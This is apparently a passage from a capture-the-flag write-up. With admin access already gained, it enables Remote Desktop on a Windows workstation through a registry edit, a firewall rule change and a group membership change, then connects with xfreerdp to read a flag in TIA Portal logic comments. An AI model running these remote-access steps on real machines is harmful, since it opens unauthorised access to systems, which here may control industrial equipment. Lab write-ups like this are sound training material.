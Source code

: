We can authenticate as the admin so we have the ability to execute any
commands but we cannot use TIA because TIA is a strictly GUI application -- we
need remote desktop. We wasted a decent amount of time exploring the `vmrdp`
because VMRDP allows administrators to remotely connect to a virtual machine.
However, VMRDP was unable to provide a session so we had to look elsewhere.

Despite having, VMRDP, the workstation does not have regular RDP enabled but we
can enable RDP with the following:

```
C:\Windows\system32>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
The operation completed successfully.

C:\Windows\system32>netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

C:\Windows\system32>net localgroup "Remote Desktop Users" admin /add
The command completed successfully.

Updated 3 rule(s).
Ok.
```

Once RDP was enabled we could connect with xfreerdp

```cmd
$ xfreerdp /u:Admin /v:192.168.2.251 /smart-sizing
```

then use TIA Portal to view the flag in the logic comments.
